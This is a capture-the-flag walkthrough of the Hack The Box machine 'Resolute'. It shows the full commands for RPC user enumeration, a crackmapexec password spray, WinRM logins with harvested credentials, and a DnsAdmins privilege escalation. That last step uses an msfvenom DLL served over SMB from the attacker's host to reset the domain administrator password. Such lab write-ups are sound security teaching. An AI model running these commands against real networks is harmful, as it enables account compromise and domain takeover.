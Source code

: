 ```yaml
---
title: "Resolute - HTB"
categories: [Windows, Medium]
tags: [Windows,Medium,RPC,PasswordSpray,DNSAdmin,AD]
mermaid: true
render_with_liquid: false
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Resolute.png
---
```


# Introdution

[https://app.hackthebox.com/machines/Resolute](https://app.hackthebox.com/machines/Resolute)

This is a medium box Windows. We starts enum users through RPC, where It was found a users list. Also It was found a password. Then It is done a Password Spray that allow to find melanie credential. Into in box, we discovered the ryan user credential. He is part of the DnsAdmins group, this group usually has elevated privilege. We explored this and get the Administrator shell.

**Have a good time!**

## Diagram

```mermaid
graph TD
    A[Enumeration] --> |rcpclient| AA(Users list and credential) -->
    B[Exploration] --> |Password Spray| BB[/Melanie/] -->
    C[Post-Exploration] --> |Enum Local| CC[/Ryan user/] --> |DnsAdmin| D
    D((Administrator))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.169 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled.png)

## **Port 445 (RPC)**

- `rpcclient -U "" -N 10.10.10.169`
    
    ```bash
    enumdomusers
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%201.png)
    
    I can get information about the users one by one with `queryuser`:
    
    ```bash
    queryuser 0x1f4
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%202.png)
    
    I can also get less information about all users with `querydispinfo`:
    
    ```bash
    querydispinfo
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%203.png)
    
    We found a password in clear: **Welcome123!**
    

# Exploration

**Password Spray**

With the clear password found (**Welcome123!**), we’ll do a Password Spray with the users found.

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%204.png)

We can login in SMB through credential:

> User :**melanie**
> 
> Pass: **Welcome123!**


```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%205.png)

# Post Exploration

## Melanie → Ryan

A hidden file was found that revelate a credential of **ryan** user.

> User: **ryan
> 
> Pass: Serv3r4Admin4cc123!**
> 

```bash
ls -force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%206.png)

`C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%207.png)

```bash
evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'
```

## Ryan → Administrator

### DNSAdmins

```bash
whoami /groups
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%208.png)

We verified that the ryan user is part of the DnsAdmins group, this group usually has elevated privilege. Then we’ll use the dnscmd.exe to execute commands with SYSTEM. The dnscmd will do that the target download an evil DLL into my KALI and run it as a DNS service plugin.

```bash
# Payload DLL
	msfvenom -p windows/x64/exec cmd='net user administrator Senha#123! /domain' -f dll -o perverse.dll

# Smb Server
	impacket-smbserver share . -smb2support

# In target, download it and run a DLL.
	cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.7\share\perverse.dll
	sc.exe stop dns
	sc.exe start dns

# After Administrator password changed, login it.
	impacket-psexec megabank.local/administrator@10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%209.png)